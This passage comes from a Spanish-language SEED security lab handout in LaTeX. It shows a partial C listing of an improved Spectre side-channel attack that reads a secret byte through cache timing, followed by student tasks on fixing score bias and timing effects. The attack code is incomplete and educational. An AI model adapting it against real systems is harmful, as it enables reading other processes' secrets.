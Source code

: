 \begin{lstlisting}[caption=\texttt{SpectreAttackImproved.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  ......
  for (i = 0; i < 256; i++) {
     ......
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

void spectreAttack(size_t index_beyond)
{
  ... omitted: same as that in SpectreAttack.c ...
}

int main() {
  int i;
  uint8_t s;
  size_t  index_beyond = (size_t)(secret - (char*)buffer);

  flushSideChannel();
  for(i=0;i<256; i++) scores[i]=0;

  for (i = 0; i < 1000; i++) {
    printf("*****\n");                 (*@\ding{192}@*)
    spectreAttack(index_beyond);
    usleep(10);                        (*@\ding{193}@*)
    reloadSideChannelImproved();
  }

  int max = 0;                     
  for (i = 0; i < 256; i++){
   if(scores[max] < scores[i])
     max = i;
  }

  printf("Reading secret value at index %ld\n", index_beyond);
  printf("The  secret value is %d(%c)\n", max, max);
  printf("The number of hits is %d\n", scores[max]);
  return (0);
}
\end{lstlisting}

\paragraph{Tareas.} Por favor compile y ejecute \texttt{SpectreAttackImproved.c},
y realice las siguientes tareas:

\begin{itemize}

\item Puede observar que al correr el código el que tenga el score más alto es posible que sea \texttt{scores[0]}. Por favor descubra el porque esto y arregle el código de tal forma que se imprima el valor secreto (que no sea el que está en el índice cero).

\item La Línea  parece inútil, but basados en nuestra experiencia en la Máquina Virtual de SEED que corre Ubuntu 20.04, sin esta línea el ataque no funcionará. En la Máquina Virtual de SEED que corre Ubuntu 16.04, no es necesaria esta línea. Todavía no hemos podido encontrar la razón del porque de este comportamiento, por lo que si ud. puede encontrarla, su instructor podría darle puntos extras.
Por favor ejecute el programa con y sin esta línea y describa sus observaciones.
 
 \item La Línea  hace que el programa se pause durante 10 microsegundos. Cuanto afecta a la tasa de éxito del ataque este tiempo de pausa. Por favor intente con diferentes valores y describa sus observaciones.

\end{itemize}
 



